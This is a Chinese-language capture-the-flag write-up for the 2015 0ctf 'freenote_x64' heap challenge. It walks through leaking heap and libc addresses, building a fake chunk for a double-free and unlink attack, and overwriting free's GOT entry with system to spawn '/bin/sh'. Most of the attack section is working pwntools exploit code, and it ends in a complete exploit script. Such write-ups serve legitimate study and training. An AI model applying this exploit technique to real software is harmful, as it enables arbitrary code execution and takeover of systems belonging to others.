 # 2015 0ctf pwn--freenote_x64(jarvisoj level6_x64)

题目类似记事本的功能

![image](https://raw.githubusercontent.com/lhc328/pwn/master/picture/20150ctffreenotex64level6x64/1.png)

漏洞在free堆时没有进行检查

![image](https://raw.githubusercontent.com/lhc328/pwn/master/picture/20150ctffreenotex64level6x64/2.png)

而且在glibc中，free之后不会清空堆中的内容，输入并没有在末尾加'\x00'截断，可以读取超过预定长度的内容。

注意：程序malloc最小的数值是0x80，然后是0x180。

## 利用思路

double free和unlink搭配实现任意地址读写，目标是修改free_got中的内容。

### 第一步 求出heap_base和libc_base

unlink 需要 修改 fd和bk，所以要知道heap地址，进行修改。

为了防止合并，并一次性获取heap和libc地址，我们分配4个新块。

```python
new(1,'a')
new(1,'b')
new(1,'c')
new(1,'d')
delete(0)
delete(2)
```

这时chunk0的fd，bk和chunk2的fd，bk如下

main_arena<-->  fd  chunk 0  bk <--->   fd    chunk 2   bk ---》main_arena

![image](https://raw.githubusercontent.com/lhc328/pwn/master/picture/20150ctffreenotex64level6x64/3.png)

这时，新建两个0x8的chunk，覆盖掉chunk2，chunk0，由于new时没有清空堆，list时便会把堆地址和main_arena的地址泄露出来。

![image](https://raw.githubusercontent.com/lhc328/pwn/master/picture/20150ctffreenotex64level6x64/4.png)

堆基地址

![image](https://raw.githubusercontent.com/lhc328/pwn/master/picture/20150ctffreenotex64level6x64/5.png)

偏移为 0x242a000 - 0x242b940 = 0x1940

libc_base

![image](https://raw.githubusercontent.com/lhc328/pwn/master/picture/20150ctffreenotex64level6x64/6.png)

偏移为 0x7f4658fb9b78 - 0x7f4658c1e000 = 0x 39bb78(靶机偏移为0x3be7b8)

### 第二步 修改chunk的fd，bk，通过unlink操作，达到地址任意写

先找到通过unlink的地址，由下图我们选择了chunk2，即heap+0x60
![image](https://raw.githubusercontent.com/lhc328/pwn/master/picture/20150ctffreenotex64level6x64/5.png)

还记得上次的unlink吗，2018网鼎杯的babyheap，那是向前合并，这次我们来向后合并，先伪造chunk

```python
payload01  = p64(0) + p64(0x51) + p64(heap + 0x30 - 0x18) + p64(heap + 0x30 - 0x10)
payload01 += "A"*0x30 + p64(0x50) + p64(0x20)
new(len(payload01), payload01)
 
payload02  = "a"*0x80 + p64(0x110) + p64(0x90) + "A"*0x80
payload02 += p64(0) + p64(0x71) + "A"*0x60
new(len(payload02), payload02)
delete(2)
```

![image](https://raw.githubusercontent.com/lhc328/pwn/master/picture/20150ctffreenotex64level6x64/7.png)

free chunk2时，系统会检测chunk2 的flag位为0，prev_size为0x110，地址减0x110到0x51（fake chunk处），p指针指向fake chunk，unlink检测 p->fd->bk==p   p->bk ->fd ==p , 即0xbfd018 + 0x18 = 0xbfd030(上图是0x242030, 由于运行了两次，记住030就好了 -_-！！)    0xbfd020 + 0x10 = 0xbfd030

完成unlink后，chunk0的ptr会指向0xbfd018,我们修改chunk0的ptr指向 free_got，然后再修改时就再 free_got处修改了，这时我们写进去system函数的地址。

```python
payload03 = p64(8) + p64(0x1) + p64(0x8) + p64(free_got) + "A"*0x40
payload04 = p64(system)
 
#
edit(0, 0x60, payload03)
edit(0, 0x8, payload04)
```

最后新建一个chunk4，里面内容为"/bin/sh\x00"

free(4),就会执行system('/bin/sh')了

exp:

```python
from pwn import *
import sys
 
p = process("./level6_x64")
elf = ELF("./level6_x64")
libc = ELF("./libc.so.6")

def list():
    p.recvuntil("Your choice: ")
    p.sendline("1")
 
def new(length, note):
    p.recvuntil("Your choice: ")
    p.sendline("2")
    p.recvuntil("new note: ")
    p.sendline(str(length))
    p.recvuntil("note: ")
    p.send(note)
 
def edit(index, length, note):
    p.recvuntil("Your choice: ")
    p.sendline("3")
    p.recvuntil("Note number: ")
    p.sendline(str(index))
    p.recvuntil("Length of note: ")
    p.sendline(str(length))
    p.recvuntil("Enter your note: ")
    p.send(note)
 
def delete(index):
    p.recvuntil("Your choice: ")
    p.sendline("4")
    p.recvuntil("Note number: ")
    p.sendline(str(index))
 
def exit():
    p.recvuntil("Your choice: ")
    p.sendline("5")
 
#leak address
new(1, 'a')
new(1, 'a')
new(1, 'a')
new(1, 'a')
 
delete(0)
delete(2)
 
new(8, '12345678')
new(8, 'aaaaaaaa')
 
list()
p.recvuntil("0. 12345678")
heap = u64(p.recvline().strip("\x0a").ljust(8, "\x00")) - 0x1940
p.recvuntil("2. aaaaaaaa")
libcbase = u64(p.recvline().strip("\x0a").ljust(8, "\x00")) - 0x3be7b8
 
print hex(heap)
print hex(libcbase)
 
delete(3)
delete(2)
delete(1)
delete(0)
 
#double link

payload01  = p64(0) + p64(0x51) + p64(heap + 0x30 - 0x18) + p64(heap + 0x30 - 0x10)
payload01 += "A"*0x30 + p64(0x50) + p64(0x20)
new(len(payload01), payload01)
 
payload02  = "a"*0x80 + p64(0x110) + p64(0x90) + "A"*0x80
payload02 += p64(0) + p64(0x71) + "A"*0x60
new(len(payload02), payload02)
delete(2)
 
 
 
#change
 
free_got = elf.got['free']
system = libcbase + libc.symbols['system']
 
payload03 = p64(8) + p64(0x1) + p64(0x8) + p64(free_got) + "A"*0x40
payload04 = p64(system)
 

edit(0, 0x60, payload03)
edit(0, 0x8, payload04)
 
payload05 = "/bin/sh\x00"
new(len(payload05), payload05)
delete(4)
 
p.interactive()
```

